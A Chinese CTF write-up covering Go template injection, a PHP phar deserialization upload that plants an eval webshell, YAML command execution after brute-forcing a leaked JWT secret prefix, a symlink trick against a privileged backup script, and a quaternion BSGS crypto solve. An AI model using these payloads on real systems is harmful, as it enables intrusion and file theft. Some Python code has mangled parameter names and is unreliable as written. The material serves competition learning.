










# Web

### SSTI

Go 模板语法测试

```
{{$}}
```

返回：

```
map[B64Decode:0x6ee380 exec:0x6ee120]
```

该对象包含两个函数：`B64Decode` 和 `exec`


如果 `exec` 是可直接访问的属性，应该返回函数地址

```
{{.exec}} - 直接访问

{{call .exec "whoami"}}
```




存在过滤
```
{{call .exec "dir /bin"}}查看可执行程序
```


base64 失败,尝试继续编码执行



### eazy_readfile

```bash
<?php

class Acheron {
    public $mode;
    public function __construct($mode){
        $this->mode = $mode;
    }
}

echo serialize(new Acheron('r'));
```

```
1=O:7:"Acheron":1:{s:4:"mode";s:1:"r";}&0=/etc/passwd
```

序列化读取文件

生成 phar 文件

```bash
<?php

$phar = new Phar("poc.phar.abc");
$phar->startBuffering();
$payload = 'system("echo \'PD9waHAgZXZhbCgkX1BPU1RbIjMzMyJdKTs=\' |base64 -d > poc.php");';
$phar->setStub("<?php $payload __HALT_COMPILER(); ?>");
$phar->addFromString('test.txt', 'test');
$phar->stopBuffering();
```

new Acheron('w')上传生成的 phar 文件

```python
# 这是一个示例 Python 脚本。
# from urllib import request
import requests
import re
url='http://web-14b773f06b.challenge.xctf.org.cn:80/'
proxy = {
    'http': 'http://127.0.0.1:8080',
    'https': 'http://127.0.0.1:8080'
}
def upload_file():
    file_content = open("D:\phpstudy_pro\WWW\poc.phar.abc.gz","rb").read()
    data = {
        "0": file_content,
        "1": 'O:7:"Acheron":1:{s:4:"mode";s:1:"w";}'
    }

    file_name = requests.post(url  , data=data, proxies = proxy).text
    print(file_name)

# 按装订区域中的绿色按钮以运行脚本。
if __name__ == '__main__':
    upload_file()
```

蚁剑登录



/flag 没法直接读



发现 run.sh 可以降低权限，直接创建软链接/flag 到/var/www/html 下，等待脚本执行，最后复制到 backup 目录下，最后直接访问 url/backup/flaglink 读取



### eazy_python

类似题型参考 https://blog.lie.moe/2024/11/17/weekly2/

知识点参考：[https://xz.aliyun.com/news/11927](https://xz.aliyun.com/news/11927)

上传 yaml 文本，命令执行

执行 YAML 中定义的方法

但是上传过程发现必须是 admin，报错时会报错 secret 为 @o70xO$0%#qR9#**



```python
import sys
import string
import jwt
from jwt.exceptions import ExpiredSignatureError, InvalidTokenError

PREFIX = "@o70xO$0%#qR9#"

def enumerate_suffixes(_alphabet_: str):
    size = len(alphabet)
    total = size * size
    for n in range(total):
        q, r = divmod(n, size)
        yield alphabet[q] + alphabet[r]

def is_valid(_token_: str, _secret_: str) -> bool:
    try:
        jwt.decode(
            token,
            _key_=secret,
            _algorithms_=("HS256",),
            _options_={"verify_exp": False, "verify_aud": False},
        )
        return True
    except ExpiredSignatureError:
        return True
    except InvalidTokenError:
        return False

def main() -> None:
    print("JWT> ", _end_="", _flush_=True)
    token = sys.stdin.readline().strip()
    if not token:
        print("empty token")
        return

    alphabet = "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ"
    for sfx in enumerate_suffixes(alphabet):
        secret = PREFIX + sfx
        if is_valid(token, secret):
            print(secret)
            return
    print("not found")

if __name__ == "__main__":
    main()
```

重新生成一个



AI 给出了危险的 yaml 执行示例

存在过滤



1. subprocess 模块中的常用函数

尝试执行得到 flag



# Crypto

### new_trick

四元数 _Q_ `=(` _a_ `,` _b_ `,` _c_ `,` _d_ `)` 的范数定义为 $N(Q)=a^2+b^2+c^2+d^2\ mod\ p$ 。
由于范数具有乘法同态性 $N(Q^k)=N(Q)^k\ mod\ p$ ，可将原问题转化为：

$$
N(R)=N(Q)^{secret}\ mod\ p
$$

其中 $R=Q^{secret}$ 是已知的。

针对这里的离散对数问题，可以采取大步小步算法来求解。

```python
from hashlib import md5
from Crypto.Cipher import AES
from Crypto.Util.Padding import unpad
from math import isqrt, ceil
import sys

p = 115792089237316195423570985008687907853269984665640564039457584007913129639747
Q_components = (123456789, 987654321, 135792468, 864297531)

ciphertext = b'(\xe4IJ\xfd4%\xcf\xad\xb4\x7fi\xae\xdbZux6-\xf4\xd72\x14BB\x1e\xdc\xb7\xb7\xd1\xad#e@\x17\x1f\x12\xc4\xe5\xa6\x10\x91\x08\xd6\x87\x82H\x9e'

class Quaternion:
    __slots__ = ('p','a','b','c','d')
    def __init__(self, a, b, c, d, pmod=p):
        self.p = pmod
        self.a = a % self.p
        self.b = b % self.p
        self.c = c % self.p
        self.d = d % self.p

    def __repr__(self):
        return f"Q({self.a}, {self.b}, {self.c}, {self.d})"

    def __eq__(self, other):
        return (self.a == other.a and self.b == other.b and
                self.c == other.c and self.d == other.d)

    def __hash__(self):
        # 用元组哈希
        return hash((self.a, self.b, self.c, self.d))

    def __mul__(self, other):
        a1, b1, c1, d1 = self.a, self.b, self.c, self.d
        a2, b2, c2, d2 = other.a, other.b, other.c, other.d
        a_new = (a1 * a2 - b1 * b2 - c1 * c2 - d1 * d2) % self.p
        b_new = (a1 * b2 + b1 * a2 + c1 * d2 - d1 * c2) % self.p
        c_new = (a1 * c2 - b1 * d2 + c1 * a2 + d1 * b2) % self.p
        d_new = (a1 * d2 + b1 * c2 - c1 * b2 + d1 * a2) % self.p
        return Quaternion(a_new, b_new, c_new, d_new, self.p)

    def conjugate(self):
        return Quaternion(self.a, -self.b, -self.c, -self.d, self.p)

    def norm(self):
        return (self.a * self.a + self.b * self.b + self.c * self.c + self.d * self.d) % self.p

    def inv(self):
        n = self.norm()
        if n % self.p == 0:
            raise ZeroDivisionError("Quaternion not invertible (norm == 0 mod p)")
        invn = pow(n, -1, self.p)  # Python 3.8+ modular inverse
        c = self.conjugate()
        return Quaternion(c.a * invn, c.b * invn, c.c * invn, c.d * invn, self.p)

def power_quat(base, exp):
    res = Quaternion(1,0,0,0)
    b = base
    e = exp
    while e > 0:
        if e & 1:
            res = res * b
        b = b * b
        e >>= 1
    return res

Q = Quaternion(*Q_components)
R = Quaternion(53580504271939954579696282638160058429308301927753139543147605882574336327145,
               79991318245209837622945719467562796951137605212294979976479199793453962090891,
               53126869889181040587037210462276116096032594677560145306269148156034757160128,
               97368024230306399859522783292246509699830254294649668434604971213496467857155)
limit = 2**50

def bsgs_quaternion(Q, R, limit):
    m = ceil(isqrt(limit))
    print(f"[+] BSGS parameters: limit={limit}, m={m} (需要大约 {m} 存储项)")

    # baby steps: store Q^j for j in [0, m-1]
    baby = dict()
    cur = Quaternion(1,0,0,0)
    for j in range(m):
        if cur not in baby:
            baby[cur] = j
        cur = cur * Q
        if (j+1) % 1000000 == 0:
            print(f"  baby progress: j={j+1}")

    # factor = Q^{-m}
    Qm = power_quat(Q, m)
    try:
        factor = Qm.inv()
    except ZeroDivisionError:
        raise RuntimeError("Q^m not invertible; BSGS 失败")

    # giant steps: check R*(Q^{-m})^i
    cur = R
    for i in range(m+1):
        if cur in baby:
            j = baby[cur]
            x = i * m + j
            if x < limit:
                return x
        cur = cur * factor
        if (i+1) % 1000000 == 0:
            print(f"  giant progress: i={i+1}")
    return None

def main():
    print("[*] Q =", Q)
    print("[*] R =", R)
    print("[*] limit (exclusive) =", limit)
    x = bsgs_quaternion(Q, R, limit)
    if x is None:
        print("[-] 未找到 secret（可能超出 limit 或内存不足）")
        return

    print("[+] 找到 secret =", x)
    key = md5(str(x).encode()).hexdigest().encode()
    cipher = AES.new(key=key, mode=AES.MODE_ECB)
    try:
        pt = unpad(cipher.decrypt(ciphertext), 16)
    except Exception as e:
        print(e)
        print(cipher.decrypt(ciphertext))
        return
    print(pt)

if __name__ == "__main__":
    main()
```

